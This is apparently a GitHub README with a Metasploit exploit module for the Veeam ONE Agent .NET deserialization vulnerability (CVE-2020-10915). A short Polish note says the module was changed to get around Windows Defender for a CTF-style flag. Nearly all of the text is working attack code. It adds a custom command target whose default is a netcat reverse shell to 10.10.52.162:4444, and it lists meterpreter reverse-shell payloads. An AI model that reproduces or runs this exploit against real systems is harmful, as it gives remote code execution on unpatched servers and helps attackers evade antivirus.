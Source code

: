 # SET-THM-SCRIPT-Veeam.One.Agent.Servic-
Orginalny Scrypt w danym przypadku nie działał, ponieważ blokowany jest przez Defendera. Dodałem do kodu payload "windows/x64/exec" aby ominąć defendera.
Kod który zmodyfikowałem do metasploita pod kątem windows defendera FLAG3.



==================================================================





class MetasploitModule < Msf::Exploit::Remote

  Rank = NormalRanking

  include Msf::Exploit::Remote::Tcp
  include Msf::Exploit::CmdStager
  include Msf::Exploit::Powershell

  def initialize(info = {})
    super(
      update_info(
        info,
        'Name' => 'Veeam ONE Agent .NET Deserialization',
        'Description' => %q{
          This module exploits a .NET deserialization vulnerability in the Veeam
          ONE Agent before the hotfix versions 9.5.5.4587 and 10.0.1.750 in the
          9 and 10 release lines.

          Specifically, the module targets the HandshakeResult() method used by
          the Agent. By inducing a failure in the handshake, the Agent will
          deserialize untrusted data.

          Tested against the pre-patched release of 10.0.0.750. Note that Veeam
          continues to distribute this version but with the patch pre-applied.
        },
        'Author' => [
          'Michael Zanetta', # Discovery
          'Edgar Boda-Majer', # Discovery
          'wvu' # Module
        ],
        'References' => [
          ['CVE', '2020-10914'],
          ['CVE', '2020-10915'], # This module
          ['ZDI', '20-545'],
          ['ZDI', '20-546'], # This module
          ['URL', 'https://www.veeam.com/kb3144']
        ],
        'DisclosureDate' => '2020-04-15', # Vendor advisory
        'License' => MSF_LICENSE,
        'Platform' => 'win',
        'Arch' => [ARCH_CMD, ARCH_X86, ARCH_X64],
        'Privileged' => false,
        'Targets' => [
          [
            'Windows Command',
            'Arch' => ARCH_CMD,
            'Type' => :win_cmd,
            'DefaultOptions' => {
              'PAYLOAD' => 'cmd/windows/powershell_reverse_tcp'
            }
          ],
          [
            'Windows Dropper',
            'Arch' => [ARCH_X86, ARCH_X64],
            'Type' => :win_dropper,
            'DefaultOptions' => {
              'PAYLOAD' => 'windows/x64/meterpreter_reverse_tcp'
            }
          ],
	  [
            'Windows custom Command',
            'Arch' => ARCH_CMD,
            'Type' => :win_cmd1,
            'DefaultOptions' => {
              'PAYLOAD' => 'windows/x64/exec'
            }
          ],


          [
            'PowerShell Stager',
            'Arch' => [ARCH_X86, ARCH_X64],
            'Type' => :psh_stager,
            'DefaultOptions' => {
              'PAYLOAD' => 'windows/x64/meterpreter/reverse_tcp'
            }
          ]
        ],
        'DefaultTarget' => 2,
        'DefaultOptions' => {
          'WfsDelay' => 10
        },
        'Notes' => {
          'Stability' => [SERVICE_RESOURCE_LOSS], # Connection queue may fill?
          'Reliability' => [REPEATABLE_SESSION],
          'SideEffects' => [IOC_IN_LOGS, ARTIFACTS_ON_DISK]
        }
      )
    )

    register_options([
      Opt::RPORT(2805),
      OptString.new(
        'CMD',
        [
          true,
          'np: (C:\Temp\nc.exe -e cmd 10.10.52.162 4444)',
          
        ]
      ),
      OptString.new(
        'HOSTINFO_NAME',
        [
          true,
          'Name to send in host info (must be recognized by server!)',
          'AgentController'
        ]
      )
    ])
  end

  def check
    vprint_status("Checking connection to #{peer}")
    connect

    CheckCode::Detected("Connected to #{peer}.")
  rescue Rex::ConnectionError => e
    CheckCode::Unknown("#{e.class}: #{e.message}")
  ensure
    disconnect
  end

  def exploit
    print_status("Connecting to #{peer}")
    connect

    print_status("Sending host info to #{peer}")
    sock.put(host_info(datastore['HOSTINFO_NAME']))

    res = sock.get_once
    vprint_good("<-- Host info reply: #{res.inspect}") if res

    print_status("Executing #{target.name} for #{datastore['PAYLOAD']}")

    case target['Type']
    when :win_cmd1
      execute_command(datastore['CMD'])
    when :win_cmd
      execute_command(payload.encoded)
    when :win_dropper
      # TODO: Create an option to execute the full stager without hacking
      # :linemax or calling execute_command(generate_cmdstager(...).join(...))
      execute_cmdstager(
        flavor: :psh_invokewebrequest, # NOTE: This requires PowerShell >= 3.0
        linemax: 9001 # It's over 9000
      )
    when :psh_stager
      execute_command(cmd_psh_payload(
        payload.encoded,
        payload.arch.first,
        remove_comspec: true
      ))
    end
  rescue EOFError, Rex::ConnectionError => e
    fail_with(Failure::Unknown, "#{e.class}: #{e.message}")
  ensure
    disconnect
  end

  def execute_command(cmd, _opts = {})
    vprint_status("Serializing command: #{cmd}")

    serialized_payload = Msf::Util::DotNetDeserialization.generate(
      cmd,
      gadget_chain: :TextFormattingRunProperties,
      formatter: :BinaryFormatter # This is _exactly_ what we need
    )

    print_status("Sending malicious handshake to #{peer}")
    sock.put(handshake(serialized_payload))

    res = sock.get_once
    vprint_good("<-- Handshake reply: #{res.inspect}") if res
  rescue EOFError, Rex::ConnectionError => e
    fail_with(Failure::Unknown, "#{e.class}: #{e.message}")
  end

  def host_info(name)
    meta = [0x0205].pack('v')
    packed_name = [name.length].pack('C') + name

    pkt = meta + packed_name

    vprint_good("--> Host info packet: #{pkt.inspect}")
    pkt
  end

  def handshake(serialized_payload)
    # A -1 status indicates a failure, which will trigger the deserialization
    status = [-1].pack('l<')

    length = status.length + serialized_payload.length
    type = 7
    attrs = 1
    kontext = 0

    header = [length, type, attrs, kontext].pack('VvVV')
    padding = "\x00" * 18
    result = status + serialized_payload

    pkt = header + padding + result

    vprint_good("--> Handshake packet: #{pkt.inspect}")
    pkt
  end
  
  
